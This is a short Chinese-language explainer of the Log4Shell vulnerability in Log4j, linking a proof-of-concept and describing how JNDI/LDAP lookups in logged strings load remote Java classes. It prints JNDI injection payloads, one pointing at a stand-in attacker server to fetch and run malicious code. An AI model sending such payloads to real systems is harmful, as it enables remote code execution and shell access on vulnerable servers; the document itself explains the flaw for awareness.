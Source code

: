 [来源](https://github.com/YfryTchsGD/Log4jAttackSurface/blob/master/MEME/0.jpg)

# Log4Shell 是什么？

Log4j 库在 Java 领域广泛用于记录事件或错误。当我们试图将一个被操纵的请求发送到日志中时，问题就出现了。

[pen 测试小组 0x0021h 分享了一个概念验证代码(PoC)](https://github.com/0x0021h/apache-log4j-rce/blob/main/poc/src/main/java/log4j.java) ，展示了攻击者如何通过向易受攻击的服务器或应用程序发送类似`${jndi:ldap://127.0.0.1:1389/a}`的消息来利用这一安全漏洞，如下所示:

Log4Shell 的概念验证(log4j 库中的零日漏洞)

目录服务 JNDI (Java 命名和目录接口)然后将联系 LDAP(轻量级目录访问协议)服务器`127.0.0.1:1389`，并且在从它那里接收到诸如潜在恶意 Java 类的数据之后，它将执行它们。

攻击者还可以准备一个恶意的 Java 文件，并将其作为字符串包含在将要记录的任何数据中:

```
${jndi:ldap://attackers-server.com/**malicious-java-file**}
```

当易受攻击的服务器记录该字符串时，Log4j 将从攻击者控制的服务器中检索并执行 Java 代码。如果代码是远程外壳，攻击者将以运行易受攻击的应用程序的系统用户的权限获得本地外壳。因此，该漏洞被称为 **Log4Shell** ，意思是:

> "登录以便直接访问系统."
